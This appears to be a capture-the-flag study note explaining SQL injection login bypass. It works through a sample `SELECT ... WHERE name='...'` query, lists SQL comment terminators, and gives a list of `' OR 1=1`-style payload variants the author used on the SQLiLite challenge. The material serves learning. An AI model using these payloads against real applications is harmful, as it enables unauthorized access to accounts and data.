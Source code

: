 > [!NOTE]
> **SQL injection (SQLi)** is a well-known web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. ([Source](https://portswigger.net/web-security/sql-injection))

This note may be expanded in future. Challenges that require SQLi:
* [SQL Direct](../content/Web%20Exploitation/SQL%20Direct.md)
* [SQLiLite](../content/Web%20Exploitation/SQLiLite.md) 
* [More SQLi](../content/Web%20Exploitation/More%20SQLi.md) 

Let's assume that the application queries the database with the following SQL query:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


To dump all users, we will inject into the `name` field. To do this, our payload must meet the following conditions:



* close the `name` field: `name=' '`
* add a condition that always returns `true`
* truncate the rest of the query 

For the last condition, we need to know what comments or query endings look like in SQL:

```sql
#
--
/* */ (open close)
;%00	(nullbyte)
;     (end of query)
```

For example payload `' OR 1=1;/*`

`'`- closes the bracket for the `name` field, ending an empty line

`OR 1=1` - adds a condition that is **always true**:



* `1=1` always equals `true`
* Because of the operator `OR`, even if `name=' '` is `false`, the entire expression becomes `true`. The operator assumes that if **ONE** condition of the expression is *true*, then the entire expression is *true*. ([Logical disjunction](https://en.wikipedia.org/wiki/Logical_disjunction))

  ![Logical disjunction schema](../content/assets/images/Logical_disjunction.png)

* `--` - This is a comment in SQL that disables the rest of the query after it (comments it out). You can try the same thing with the end-of-query symbol `;`.



Let's insert the aforementioned payload:


```sql
SELECT * FROM users WHERE name='' OR 1=1;/*' AND password='PASSWORD'
```


`/*` – Everything that follows this part will be considered a comment and will not be executed. Although `name=''` is empty, the condition `OR 1=1` will force the entire expression to be *true*.

Taking into account the three rules above, you can construct injections yourself, which I did while completing the [SQLiLite](../content/Web%20Exploitation/SQLiLite.md) task:  

<pre class="prettyprint">
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1; # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /* # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00 # every int/float/double number passes
33' OR 1=1 -- 
</pre>




Let's look at some examples `''' OR 1=1;` and  `''''' OR 1=1;` :


```sql
SELECT * FROM users WHERE name='''' OR 1=1;--' AND password='PASSWORD'
```


Make sure that the payload starts with an odd number of brackets so that the last one is **closing** for the field.


